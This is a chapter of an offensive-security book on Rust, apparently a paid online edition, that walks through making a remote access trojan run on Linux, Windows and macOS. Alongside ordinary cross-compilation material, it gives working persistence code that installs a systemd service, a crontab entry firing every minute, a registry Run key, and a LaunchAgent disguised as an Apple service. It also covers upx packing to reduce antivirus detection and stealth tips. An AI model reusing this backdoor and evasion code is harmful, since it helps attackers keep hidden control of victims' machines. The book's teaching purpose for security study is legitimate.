

+++
title = "Black Hat Rust - Chapter 12"
date = 2021-01-01T6:00:00Z
type = "page"
url = "/black-hat-rust/12"
access = "paid_members"
+++

# Going multi-platforms

<!--
https://sushant747.gitbooks.io/total-oscp-guide/content/persistence.html
https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c
https://users.rust-lang.org/t/how-to-make-my-exe-autorun-in-windows/49045
https://itsfoss.com/manage-startup-applications-ubuntu/
https://developer.toradex.com/knowledge-base/how-to-autorun-application-at-the-start-up-in-linux
https://www.howtogeek.com/687970/how-to-run-a-linux-program-at-startup-with-systemd/

https://help.skysilk.com/support/solutions/articles/9000162390-

-basic-how-to-start-a-program-or-script-on-linux-automatically-on-boot-with-systemd

https://www.simplified.guide/linux/automatically-run-program-on-startup
https://unix.stackexchange.com/questions/56957/how-to-start-an-application-automatically-on-boot
https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Persistence.md
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md


persistence
Lister processes (ps)
clear logs
update privilege
move to process
getuid
https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/


utiliser docker Car rust peut leaker des paths dans l’executable final (https://www.bleepingcomputer.com/news/security/most-loved-programming-language-rust-sparks-privacy-concerns/)

other benefits of using docker to compile (artifacts of paths in binary)
https://news.ycombinator.com/item?id=26681630
https://news.ycombinator.com/item?id=24516554
https://github.com/rust-lang/rust/issues/40552
https://github.com/rust-lang/rust/issues/75263


why vrndor depenedencies

sustainability
privacy
offlune builds


https://github.com/WLBF/single-instance

https://web.archive.org/web/20150325092048/http://blog.gordn.org/2015/03/implementing-run-on-login-for-your-node.html

-->

Now we have a mostly secure RAT, it's time to expand our reach.

Until now, we limited our builds to Linux. While the Linux market is huge server-side, this is another story client-side, with a market share of roughly [2.5% on the desktop](https://gs.statcounter.com/os-market-share/desktop/worldwide/).

To increase the number of potential targets, we are going to use cross-compilation: we will compile a program from a Host Operating System for a different Operating System. Compiling Windows executables on Linux, for example.

But, when we are talking about cross-compilation, we are not only talking about compiling a program from an OS to another one. We are also talking about compiling an executable from one architecture to another. From `x86_64` to `aarch64` (also known as `arm64`), for example.

In this chapter, we are going to see why and how to cross-compile Rust programs and how to avoid the painful edge-cases of cross-compilation, so stay with me.


## Why multi-platform

From computers to smartphones passing by smart TVs, IoT such as cameras or "smart" fridges... Today's computing landscape is kind of the perfect illustration of the word "fragmentation".

<!-- Even if 2 different devices run the same Operating System, manufacturers love to customize the devices  -->

Thus, if we want our operations to reach more targets, our RAT needs to support many of those platforms.


### Platform specific APIs

Unfortunately, OS APIs are not portable: for example, persistence techniques(the act of making the execution of a program persist across restarts) are very different if you are on Windows or on Linux.

The specificities of each OS force us to craft platform-dependent of code.

Thus we will need to write some parts of our RAT for windows, rewrite the same part for Linux, and rewrite it for macOS...

The goal is to write as much as possible code that is shared by all the platforms.


## Cross-platform Rust

Thankfully, Rust makes it easy to write code that will be conditionally compiled depending on the platform it's compiled for.

### The `cfg` attribute

<!-- https://doc.rust-lang.org/reference/conditional-compilation.html -->

The `cfg` attribute enables the conditional compilation of code. It [supports many options](https://doc.rust-lang.org/reference/conditional-compilation.html) so you can choose on which platform to run which part of your code.


For example: `#[cfg(target_os = "linux")]`, `#[cfg(target_arch = "aarch64")]`, `#[cfg(target_pointer_width = "64")]`;


Here is an example of code that exports the same `install` function but picks the right one depending on the target platform.

**[ch_12/rat/agent/src/install/mod.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_12/rat/agent/src/install/mod.rs)**
```rust
// ...

#[cfg(target_os = "linux")]
mod linux;

#[cfg(target_os = "linux")]
pub use linux::install;

#[cfg(target_os = "macos")]
mod macos;
#[cfg(target_os = "macos")]
pub use macos::install;

#[cfg(target_os = "windows")]
mod windows;
#[cfg(target_os = "windows")]
pub use windows::install;
```

Then, in the part of the code that is shared across platforms, we can import and use it like any module.

```rust
mod install;

// ...

install::install();
```

The `cfg` attribute can also be used with `any`, `all`, and `not`:


```rust
// The function is only included in the build when compiling for macOS OR Linux
#[cfg(any(target_os = "linux", target_os = "macos"))]
// ...

// This function is only included when compiling for Linux AND the pointer size is 64 bits
#[cfg(all(target_os = "linux", target_pointer_width = "64"))]
// ...


// This function is only included when the target Os IS NOT Windows
#[cfg(not(target_os = "windows"))]
// ...
```


### Platform dependent dependencies

We can also conditionally import dependencies depending on the target.

For example, we are going to import the `winreg` crate to interact with Windows' registry, but it does not makes sense to import, or even build this crate for platforms different thant Windows.

**[ch_12/rat/agent/Cargo.toml](https://github.com/skerkour/black-hat-rust/blob/main/ch_12/rat/agent/Cargo.toml)**
```toml
[target.'cfg(windows)'.dependencies]
winreg = "0.10"
```

## Supported platforms

The Rust project categorizes the supported platforms into 3 tiers.

- **Tier 1** targets can be thought of as "guaranteed to work".
- **Tier 2** targets can be thought of as "guaranteed to build".
- **Tier 3** targets are those for which the Rust codebase has support for but which the Rust project does not build or test automatically, so they may or may not work.

Tier 1 platforms are the followings:

- `aarch64-unknown-linux-gnu`
- `i686-pc-windows-gnu`
- `i686-pc-windows-msvc`
- `i686-unknown-linux-gnu`
- `x86_64-apple-darwin`
- `x86_64-pc-windows-gnu`
- `x86_64-pc-windows-msvc`
- `x86_64-unknown-linux-gnu`

You can find the platforms for the other tiers in the official documentation: [https://doc.rust-lang.org/nightly/rustc/platform-support.html](https://doc.rust-lang.org/nightly/rustc/platform-support.html).


In practical terms, it means that our RAT is guaranteed to work on Tier 1 platforms without problems (or it will be handled by the Rust teams). For Tier 2 platforms, you will need to write more tests to be sure that everything works as intended.


## Cross-compilation

```default
Error: Toolchain / Library XX not found. Aborting compilation.
```

How many times did you get this kind of message when trying to follow the build instructions of a project or cross-compile it?


What if, instead of writing wonky documentation, we could consign the build instructions into an immutable recipe that would guarantee us a successful build 100% of the time?

This is where Docker comes into play:


**Immutability**: The `Dockerfile`s are our immutable recipes, and `docker` would be our robot, flawlessly executing the recipes all days of the year.

<!-- But first, let see the tools required to compile Windows executable on a Linux host.


### Mingw
 -->
<!--
### Musl libc and static linking

Rust has a problem: as of today, it depends on the libc of the system, which may cause incompatibilities, while rare, it's possible.
 -->


**Cross-platform**:  Docker is itself available on the 3 major OSes (Linux, Windows, and macOS). Thus, we not only enable a team of several developers using different machines to work together, but we also greatly simplify our toolchains.

By using Docker, we are finally reducing our problem to compiling from Linux to other platforms, instead of:

- From Linux to other platforms
- From Windows to other platforms
- From macOS to other platforms
- ...


<!--
The third reason, is that Rust, may leak some paths of your


paths dans l’executable final (https://www.bleepingcomputer.com/news/security/most-loved-programming-language-rust-sparks-privacy-concerns/)

other benefits of using docker to compile (artifacts of paths in binary)
https://news.ycombinator.com/item?id=26681630https://news.ycombinator.com/item?id=24516554

 -->


## cross

The [Tools team](https://github.com/rust-embedded/wg#the-tools-team) develops and maintains a project named [cross](https://github.com/rust-embedded/cross) which allow you to easily cross-compile Rust projects using Docker, without messing with custom Dockerfiles.

It can be installed like that:
```bash
$ cargo install -f cross
```

`cross` works by using pre-made Dockerfiles, but they are maintained by the Tools team, not you, and they take care of everything.

The list of targets supported is impressive. As I'm writing this, here is the list of supported platforms: [https://github.com/rust-embedded/cross/tree/master/docker](https://github.com/rust-embedded/cross/tree/master/docker)
```default
Dockerfile.aarch64-linux-android
Dockerfile.aarch64-unknown-linux-gnu
Dockerfile.aarch64-unknown-linux-musl
Dockerfile.arm-linux-androideabi
Dockerfile.arm-unknown-linux-gnueabi
Dockerfile.arm-unknown-linux-gnueabihf
Dockerfile.arm-unknown-linux-musleabi
Dockerfile.arm-unknown-linux-musleabihf
Dockerfile.armv5te-unknown-linux-gnueabi
Dockerfile.armv5te-unknown-linux-musleabi
Dockerfile.armv7-linux-androideabi
Dockerfile.armv7-unknown-linux-gnueabihf
Dockerfile.armv7-unknown-linux-musleabihf
Dockerfile.asmjs-unknown-emscripten
Dockerfile.i586-unknown-linux-gnu
Dockerfile.i586-unknown-linux-musl
Dockerfile.i686-linux-android
Dockerfile.i686-pc-windows-gnu
Dockerfile.i686-unknown-freebsd
Dockerfile.i686-unknown-linux-gnu
Dockerfile.i686-unknown-linux-musl
```

```default
Dockerfile.mips-unknown-linux-gnu
Dockerfile.mips-unknown-linux-musl
Dockerfile.mips64-unknown-linux-gnuabi64
Dockerfile.mips64el-unknown-linux-gnuabi64
Dockerfile.mipsel-unknown-linux-gnu
Dockerfile.mipsel-unknown-linux-musl
Dockerfile.powerpc-unknown-linux-gnu
Dockerfile.powerpc64-unknown-linux-gnu
Dockerfile.powerpc64le-unknown-linux-gnu
Dockerfile.riscv64gc-unknown-linux-gnu
Dockerfile.s390x-unknown-linux-gnu
Dockerfile.sparc64-unknown-linux-gnu
Dockerfile.sparcv9-sun-solaris
Dockerfile.thumbv6m-none-eabi
Dockerfile.thumbv7em-none-eabi
Dockerfile.thumbv7em-none-eabihf
Dockerfile.thumbv7m-none-eabi
Dockerfile.wasm32-unknown-emscripten
Dockerfile.x86_64-linux-android
Dockerfile.x86_64-pc-windows-gnu
Dockerfile.x86_64-sun-solaris
Dockerfile.x86_64-unknown-freebsd
Dockerfile.x86_64-unknown-linux-gnu
Dockerfile.x86_64-unknown-linux-musl
Dockerfile.x86_64-unknown-netbsd
```


### Cross-compiling from Linux to Windows

```bash
# In the folder of your Rust project
$ cross build --target x86_64-pc-windows-gnu
```


### Cross-compiling to aarch64 (arm64)

```bash
# In the folder of you Rust project
$ cross build --target aarch64-unknown-linux-gnu
```


### Cross-compiling to armv7

```bash
# In the folder of your Rust project
$ cross build --target armv7-unknown-linux-gnueabihf
```


## Custom Dockerfiles

Sometimes, you may need specific tools in your Docker image, such as a packer (what is a packer? we will see that below) or tools to strip and rewrite the metadata of your final executable.

In this situation, it's legitimate to create a custom Dockerfile and to configure `cross` to use it for a specific target.

Create a `Cross.toml` file in the root of your project (where your `Cargo.toml` file is), with the following content:

```toml
[target.x86_64-pc-windows-gnu]
image = "my_image:tag"
```

We can also completely forget `cross` and build our own `Dockerfiles`. Here is how.

### Cross-compiling from Linux to Windows

**[ch_12/rat/docker/Dockerfile.windows](https://github.com/skerkour/black-hat-rust/blob/main/ch_12/rat/docker/Dockerfile.windows)**
```dockerfile
FROM rust:latest

RUN apt update && apt upgrade -y
RUN apt install -y g++-mingw-w64-x86-64

RUN rustup target add x86_64-pc-windows-gnu
RUN rustup toolchain install stable-x86_64-pc-windows-gnu

WORKDIR /app

CMD ["cargo", "build", "--target", "x86_64-pc-windows-gnu"]
```

```bash
$ docker build . -t black_hat_rust/ch12_windows -f Dockerfile.windows
# in your Rust project
$ docker run --rm -ti -v `pwd`:/app black_hat_rust/ch12_windows
```


## Cross-compiling to aarch64 (arm64)

**[ch_12/rat/docker/Dockerfile.aarch64](https://github.com/skerkour/black-hat-rust/blob/main/ch_12/rat/docker/Dockerfile.aarch64)**
```dockerfile
FROM rust:latest

RUN apt update && apt upgrade -y
RUN apt install -y g++-aarch64-linux-gnu libc6-dev-arm64-cross

RUN rustup target add aarch64-unknown-linux-gnu
RUN rustup toolchain install stable-aarch64-unknown-linux-gnu

WORKDIR /app

ENV CARGO_TARGET_AARCH64_UNKNOWN_LINUX_GNU_LINKER=aarch64-linux-gnu-gcc \
    CC_aarch64_unknown_linux_gnu=aarch64-linux-gnu-gcc \
    CXX_aarch64_unknown_linux_gnu=aarch64-linux-gnu-g++

CMD ["cargo", "build", "--target", "aarch64-unknown-linux-gnu"]
```


```bash
$ docker build . -t black_hat_rust/ch12_linux_aarch64 -f Dockerfile.aarch64
# in your Rust project
$ docker run --rm -ti -v `pwd`:/app black_hat_rust/ch12_linux_aarch64
```


### Cross-compiling to armv7

**[ch_12/rat/docker/Dockerfile.armv7](https://github.com/skerkour/black-hat-rust/blob/main/ch_12/rat/docker/Dockerfile.armv7)**
```dockerfile
FROM rust:latest

RUN apt update && apt upgrade -y
RUN apt install -y g++-arm-linux-gnueabihf libc6-dev-armhf-cross

RUN rustup target add armv7-unknown-linux-gnueabihf
RUN rustup toolchain install stable-armv7-unknown-linux-gnueabihf

WORKDIR /app

ENV CARGO_TARGET_ARMV7_UNKNOWN_LINUX_GNUEABIHF_LINKER=arm-linux-gnueabihf-gcc \
    CC_armv7_unknown_linux_gnueabihf=arm-linux-gnueabihf-gcc \
    CXX_armv7_unknown_linux_gnueabihf=arm-linux-gnueabihf-g++

CMD ["cargo", "build", "--target", "armv7-unknown-linux-gnueabihf"]
```


```bash
$ docker build . -t black_hat_rust/ch12_linux_armv7 -f Dockerfile.armv7
# in your Rust project
$ docker run --rm -ti -v `pwd`:/app black_hat_rust/ch12_linux_armv7
```


## More Rust binary optimization tips

### Strip

`strip` is a Unix tool that removes unused symbols and data from your executables.

```bash
$ strip -s ./my_executable
```

## Packers

A packer wraps an existing program and compresses and/or encrypts it.




For that, it takes our executables as input, then:

- compress and/or encrypt it
- prepend it with a stub
- append the modified executable
- set the stub as the entrypoint of the final program

During runtime, the stub will decrypt/decompress the original executable and load it in memory.

Thus, our original executable will only live decrypted/decompressed in the memory of the Host system. It helps to reduce the chances of detection.


The simplest and most famous packer is `upx`. Its principal purpose is to reduce the size of executables.


```bash
$ sudo apt install -y upx
$ upx -9 <my executable>
```

As `upx` is famous, almost all anti-viruses know how to detect and circumvent it. Don't expect it to fool any modern anti-virus or serious analyst.


## Persistence

Computers, smartphones, and servers are sometimes restarted.

This is why we need a way to persist and relaunch the RAT when our targets restart.

This is when persistence techniques come into play. As persistence techniques are absolutely not cross-platform, they make the perfect use-case for cross-platform Rust.

A persistent RAT is also known as a backdoor, as it allows its operators to "come back later by the back door".

Note that persistence may not be wanted if you do not want to leave traces on the infected systems.


### Linux persistence


The simplest way to achieve persistence on Linux is by creating a [`systemd`](https://en.wikipedia.org/wiki/Systemd) entry.

**[ch_12/rat/agent/src/install/linux.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_12/rat/agent/src/install/linux.rs)**
```rust
pub const SYSTEMD_SERVICE_FILE: &str = "/etc/systemd/system/ch12agent.service";

fn install_systemd(executable: &PathBuf) -> Result<(), crate::Error> {
    let systemd_file_content = format!(
        "[Unit]
Description=Black Hat Rust chapter 12's agent

[Service]
Type=simple
ExecStart={}
Restart=always
RestartSec=1

[Install]
WantedBy=multi-user.target
Alias=ch12agent.service",
        executable.display()
    );

    fs::write(SYSTEMD_SERVICE_FILE, systemd_file_content)?;

    Command::new("systemctl")
        .arg("enable")
        .arg("ch12agent")
        .output()?;

    Ok(())
}
```

Unfortunately, creating a `systemd` entry requires most of the time root privileges or is not even available on all Linux systems.

The second simplest and most effective technique to backdoor a Linux system that doesn't require elevated privileges is by creating a `cron` entry.

In shell, it can be achieved like that:
```bash
# First, we dump all the existing entries in a file
$ crontab -l > /tmp/cron
# we append our own entry to the file
$ echo "* * * * * /path/to/our/rat" >> /tmp/cron
# And we load it
$ crontab /tmp/cron
$ rm -rf /tmp/cron
```

Every minute, `crond` (the `cron` daemon) will try to load our RAT.

It can be ported to Rust like that:
```rust
fn install_crontab(executable: &PathBuf) -> Result<(), crate::Error> {
    let cron_expression = format!("* * * * * {}\n", executable.display());
    let mut crontab_file = config::get_agent_directory()?;
    crontab_file.push("crontab");

    let crontab_output = Command::new("crontab").arg("-l").output()?.stdout;
    let current_tasks = String::from_utf8(crontab_output)?;
    let current_tasks = current_tasks.trim();
    if current_tasks.contains(&cron_expression) {
        return Ok(());
    }

    let mut new_tasks = current_tasks.to_owned();
    if !new_tasks.is_empty() {
        new_tasks += "\n";
    }
    new_tasks += cron_expression.as_str();

    fs::write(&crontab_file, &new_tasks)?;

    Command::new("crontab")
        .arg(crontab_file.display().to_string())
        .output()?;

    let _ = fs::remove_file(crontab_file);

    Ok(())
}
```

Finally, by trying all our persistences techniques, each one after the other, we increase our chances of success.

```rust
pub fn install() -> Result<(), crate::Error> {
    let executable_path = super::copy_executable()?;

    println!("trying systemd persistence");
    if let Ok(_) = install_systemd(&executable_path) {
        println!("success");
        return Ok(());
    }
    println!("failed");

    println!("trying crontab persistence");
    if let Ok(_) = install_crontab(&executable_path) {
        println!("success");
        return Ok(());
    }
    println!("failed");

    // other installation techniques

    Ok(())
}
```

### Windows persistence

On Windows, persistence can be achieved by creating a [registry](https://en.wikipedia.org/wiki/Windows_Registry) key with the path: `%CURRENT_USER%\Software\Microsoft\Windows\CurrentVersion\Run`.


**[ch_12/rat/agent/src/install/windows.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_12/rat/agent/src/install/windows.rs)**
```rust
fn install_registry_user_run(executable: &PathBuf) -> Result<(), crate::Error> {
    let hkcu = RegKey::predef(HKEY_CURRENT_USER);
    let path = Path::new("Software")
        .join("Microsoft")
        .join("Windows")
        .join("CurrentVersion")
        .join("Run");
    let (key, disp) = hkcu.create_subkey(&path).unwrap();
    key.set_value("BhrAgentCh12", &executable.display().to_string())
        .unwrap();

    Ok(())
}
```

```rust
pub fn install() -> Result<(), crate::Error> {
    let executable_path = super::copy_executable()?;

    println!("trying registry user Run persistence");
    if let Ok(_) = install_registry_user_run(&executable_path) {
        println!("success");
        return Ok(());
    }
    println!("failed");

    // other installation techniques

    Ok(())
}
```

### macOS Persistence

On macOS, persistence can be achieved with [`launchd`](https://support.apple.com/guide/terminal/script-management-with-launchd-apdc6c1077b-5d5d-4d35-9c19-60f2397b2369/mac) by creating a plist file in the `Library/LaunchAgents` folder.

**[ch_12/rat/agent/src/install/macos.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_12/rat/agent/src/install/macos.rs)**
```rust
pub const LAUNCHD_FILE: &str = "com.blackhatrust.agent.plist";

fn install_launchd(executable: &PathBuf) -> Result<(), crate::Error> {
    let launchd_file_content = format!(r#"<?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "https://web.archive.org/web/20160508000732/http://www.apple.com/DTDs/PropertyList-1.0.dtd">
    <plist version="1.0">
        <dict>
            <key>Label</key>
            <string>com.apple.cloudd</string>
            <key>ProgramArguments</key>
            <array>
                <string>{}</string>
            </array>
            <key>RunAtLoad</key>
            <true/>
        </dict>
    </plist>"#, executable.display());

    let mut launchd_file = match dirs::home_dir() {
        Some(home_dir) => home_dir,
        None => return Err(Error::Internal("Error getting home directory.".to_string())),
    };
    launchd_file
        .push("Library")
        .push("LaunchAgents")
        .push(LAUNCHD_FILE);

    fs::write(&launchd_file, launchd_file_content)?;

    Command::new("launchctl")
        .arg("load")
        .arg(launchd_file.display().to_string())
        .output()?;

    Ok(())
}
```


```rust
pub fn install() -> Result<(), crate::Error> {
    let executable_path = super::copy_executable()?;

    println!("trying launchd persistence");
    if let Ok(_) = install_launchd(&executable_path) {
        println!("success");
        return Ok(());
    }
    println!("failed");

    // other installation techniques

    Ok(())
}
```


## Single instance

The problem with persistence is that depending on the technique used, multiple instances of our RAT may be launched in parallel.

For example, `crond` is instructed to execute our program every minute. As our program is designed to run for more than 1 minute, at `T+2min` there will be 3 instances of our RAT running.

As it would lead to weird bugs and unpredictable behavior, it's not desirable. Thus, we must ensure that at any given moment, only one instance of our RAT is running on a host system.

For that, we can use the [`single-instance`](https://crates.io/crates/single-instance) crate.


**[ch_12/rat/agent/src/main.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_12/rat/agent/src/main.rs)**
```rust
fn main() -> Result<(), Box<dyn std::error::Error>> {
    let instance = SingleInstance::new(config::SINGLE_INSTANCE_IDENTIFIER).unwrap();

    if !instance.is_single() {
        return Ok(());
    }
    // ...
}
```


Beware that the techniques used to assert that only a single instance of your RAT is running may reveal its presence.

A way to stay stealth is to generate the `single-instance` identifier from the information of the machine that won't change over time. A hash of the serial number of a hardware piece, for example.


## Going further

There are many more ways to persist on the different platforms, depending on your privileges (root/admin or not).

You can find more methods for [Linux here](https://sushant747.gitbooks.io/total-oscp-guide/content/persistence.html) and for [Windows here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Persistence.md).


## Summary


* Cross-compilation with Docker brings reproducible builds and alleviates a lot of pain.
* Use `cross` in priority to cross-compile your Rust projects.
* It's not a matter of *if*, but of *when* that your internet-connected smart appliance is hacked.
* Persistence is easier with elevated privileges.
* Persistence with fixed value is easy to detect.
